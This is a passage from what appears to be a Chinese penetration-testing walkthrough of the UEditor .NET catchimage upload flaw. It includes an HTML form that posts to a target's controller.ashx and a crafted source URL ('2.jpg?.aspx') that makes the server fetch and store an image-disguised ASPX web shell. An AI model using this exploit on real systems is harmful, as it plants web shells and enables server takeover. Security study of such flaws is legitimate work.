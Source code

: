 然后图片马上传到公网服务器上

[![](assets/1705301733-d26c79b5710ed5b82359ac94926f9055.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140005-d4f3816e-b10f-1.png)

本地构造一个上传的 form 表单

```plain
<form action="http://www.xxx.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```

上传图片马，上传地址修改为：[http://192.168.8.198/2.jpg?.aspx](http://192.168.8.198/2.jpg?.aspx)

[![](assets/1705301733-a73ad61a29b9b08321138b5095a299a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140017-dc1cd8be-b10f-1.png)
